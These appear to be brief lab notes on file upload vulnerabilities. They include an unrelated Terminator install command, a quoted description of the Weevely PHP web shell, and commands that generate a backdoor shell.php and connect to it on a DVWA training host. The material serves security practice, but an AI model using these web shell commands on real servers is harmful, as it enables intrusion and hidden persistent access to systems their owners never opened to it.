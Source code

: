 #  File Upload Vulnerabilities

<strong>Terminator</strong> A Linux Terminal Emulator With Multiple Terminals In One Window
Install Terminator In Linux

```sh
sudo apt-get install terminator
```

## Weevely
<strong>Featured snippet from the web</strong>
<i>Weevely is a stealth PHP web shell that simulate telnet-like connection. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.</i>

```sh

kali@kali:~$ weevely generate 12345 /home/kali/shell.php

```
```sh

kali@kali:~$ weevely http://10.0.2.4/dvwa/hackable/uploads/shell.php

```
